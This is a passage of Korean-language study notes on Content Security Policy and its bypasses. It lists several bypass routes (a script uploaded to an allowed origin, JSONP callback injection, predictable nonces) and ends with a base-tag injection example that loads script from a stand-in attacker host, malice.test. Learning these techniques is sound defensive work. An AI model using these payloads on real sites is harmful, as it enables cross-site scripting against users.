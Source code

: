```<policy-directive>```는 ```<directive> <value>``` 형태로 구성된다.
    + ```ex) setTimeout("alert(1)", ...)```
  
  + 다만 해당 함수에 문자열 입력이 아닌 인라인 함수 형태로 파라미터가 전달 될 때에는 차단되지 않는다.
    + ```ex) setTimeout(function(){alert(1)}, ...)``` 

<br>

**CSP는 XSS 공격으로부터 피해를 최소화할 수 있는 좋은 방안이지만, XSS 공격의 피해를 완전히 무력화하기 위한 수단은 아니기 때문에 XSS에 대한 자체적인 방어가 병행되어야 한다.**

<br><br>
<hr style="border: 2px solid;">
<br><br>

## CSP Bypass
<hr style="border-top: 1px solid;"><br>

CSP를 이용하면 브라우저가 특정 출처에서만 자원을 불러오게끔 제한할 수 있다. 

**그러나 만약 해당 출처가 파일 업로드 및 다운로드 기능을 제공한다면, 공격자는 출처에 스크립트와 같은 자원을 업로드한 뒤 다운로드 경로로 웹 페이지에 자원을 포함시킬 수 있다.**

<br>

**CSP에서 허용한 출처가 JSONP API를 지원한다면, callback 파라미터에 원하는 스크립트를 삽입하여 공격이 가능하다.**

<br>

**nonce 값은 보통 요청마다 새로 생성되는데, 만일 이를 생성하는 알고리즘이 취약하여 값을 예측할 수 있다면 공격자는 이를 유추해 자신의 스크립트를 웹 사이트에 삽입할 수 있다.**

<br>

HTML 하이퍼링크에서 호스트 주소 없이 경로를 지정하면 브라우저는 현재 문서를 기준으로 주소를 해석한다.

HTML ```<base>``` 태그는 경로가 해석되는 기준점을 변경할 수 있도록 하며, ```<a>, <form>``` 등의 target 속성의 기본 값을 지정하도록 한다.

**만일 공격자가 ```<base href="https://malice.test/">```와 같은 마크업을 삽입하게 된다면, 추후 상대 경로를 사용하는 URL들은 본래 의도한 위치가 아닌 공격자의 서버에 자원을 가리키게 되어 공격자는 이를 통해 임의의 스크립트 등을 삽입할 수 있게 된다.**

<br>

만약 페이지에 임의 마크업을 삽입할 수 있는 취약점이 있지만, ```script-src 'self'``` CSP 구문으로 인해 스크립트를 삽입할 수 없다고 가정한다.

이 때, ```base-uri``` CSP 구문을 지정하지 않은 경우 아래와 같이 base 태그를 이용하여 임의 자원을 로드할 수 있다.

<br>

```html
<base href="https://malice.test">
<script src="/exploit.js"> 
  

```
